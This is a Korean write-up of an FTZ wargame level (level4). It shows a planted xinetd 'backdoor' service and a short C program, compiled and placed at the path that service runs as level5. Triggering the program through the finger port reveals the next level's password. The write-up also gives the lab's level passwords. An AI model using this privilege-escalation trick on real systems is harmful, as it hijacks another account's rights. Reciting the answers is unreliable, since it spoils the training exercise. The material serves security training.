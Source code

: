 PW : `suck my brain`

```bash
[level4@ftz level4]$ cat hint


누군가 /etc/xinetd.d/에 백도어를 심어놓았다.!
```
~~누구냐!!~~  
`/etc/xinetd.d/` 디렉토리는 네트웍 접근 제어를 담당하는 파일이 있는 곳입니다.

```bash
[level4@ftz level4]$ ls /etc/xinetd.d -l
total 80
-r--r--r--    1 root     level4        171 Sep 10  2011 backdoor
-rw-r--r--    1 root     root          560 Dec 19  2007 chargen
-rw-r--r--    1 root     root          580 Dec 19  2007 chargen-udp
-rw-r--r--    1 root     root          417 Dec 19  2007 daytime
-rw-r--r--    1 root     root          437 Dec 19  2007 daytime-udp
-rw-r--r--    1 root     root          339 Dec 19  2007 echo
-rw-r--r--    1 root     root          358 Dec 19  2007 echo-udp
-rw-r--r--    1 root     root          317 Dec 19  2007 finger
-rw-r--r--    1 root     root          273 Dec 19  2007 ntalk
-rw-r--r--    1 root     root          359 Dec 19  2007 rexec
-rw-r--r--    1 root     root          376 Dec 19  2007 rlogin
-rw-r--r--    1 root     root          429 Dec 19  2007 rsh
-rw-r--r--    1 root     root          317 Dec 19  2007 rsync
-rw-r--r--    1 root     root          310 Dec 19  2007 servers
-rw-r--r--    1 root     root          312 Dec 19  2007 services
-rw-r--r--    1 root     root          406 Dec 19  2007 sgi_fam
-rw-r--r--    1 root     root          261 Dec 19  2007 talk
-rw-r--r--    1 root     root          305 Sep 10  2011 telnet
-rw-r--r--    1 root     root          495 Dec 19  2007 time
-rw-r--r--    1 root     root          515 Dec 19  2007 time-udp
```
여기에 backdoor라는 파일이 있다. 읽을 수 있으니 열어보면
```bash
[level4@ftz level4]$ cat /etc/xinetd.d/backdoor
service finger
{
        disable = no
        flags           = REUSE
        socket_type     = stream
        wait            = no
        user            = level5
        server          = /home/level4/tmp/backdoor
        log_on_failure  += USERID
}
```
이렇게 나온다. 뭔지는 잘 모르더라도 ~/tmp/backdoor 파일에 무언가가 있음을 짐작할 수 있고, 이것에 level5권한으로 실행 된다는 느낌이 든다.
그리고 서비스는 `finger`라는 것을 알 수 있다.

만약에 backdoor라는 파일에 my-pass를 실행하는 코드가 있다면 어떻게 될까?

```c
// backdoor.c

#include <stdio.h>

int main() {
	system("my-pass");
	return 0;
}
```
```bash
$ gcc backdoor.c -o backdoor
$ telnet localhost 79
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.

Level5 Password is "what is your name?".

Connection closed by foreign host.

```

level5의 패스워드는 `what is your name?`이다.
